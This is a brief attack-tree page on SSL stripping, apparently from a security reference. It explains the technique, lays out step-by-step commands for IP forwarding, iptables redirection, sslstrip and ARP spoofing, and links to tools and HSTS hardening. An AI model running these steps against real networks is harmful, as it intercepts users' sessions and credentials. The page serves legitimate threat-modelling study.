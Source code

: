 # SSL Stripping

SSL stripping downgrades a HTTPS connection to HTTP by intercepting the TLS authentication sent from the application to the user. The adversary sends an unencrypted version of the application’s site to the user while maintaining the secured session with the application. The user’s session is visible to the adversary.

## Attack

```
1 Strip SSL (AND)
    1.1 Install SSLStrip (AND)
    1.2 Configure attack machine for IP forwarding (echo 1 > /proc/sys/net/ipv4/ip_forward or sysctl -w net.ipv4.ip_forward=1) (AND)
    1.3 Route all HTTP traffic to SSLStrip (iptables –t nat –A PREROUTING -i eth0 –p tcp –dport 80 –j REDIRECT –to-port 54321) (AND)
    1.4 Run SSLStrip (sslstrip –l 54321)
2 Spoof ARP (AND)
    2.1 Install arpspoof (AND)
    2.2 Configure ARP spoofing (arpspoof –i eth0 –t <targetIP> <gatewayIP>)
3 Sniff traffic 
```

## Resources
* [simple ARP spoofer](https://github.com/tymyrddin/ymrir/tree/master/arp_spoofer)
* [simple packet sniffer](https://github.com/tymyrddin/ymrir/tree/master/packet_sniffer)
* [Bettercap sslstrip not working](https://github.com/tymyrddin/ymrir/wiki/bettercap.md)
* [Undesired HTTPS redirects](https://github.com/tymyrddin/ymrir/wiki/https-browser.md)
* [Correctly configured HSTS](https://github.com/tymyrddin/ymrir/wiki/hsts.md)
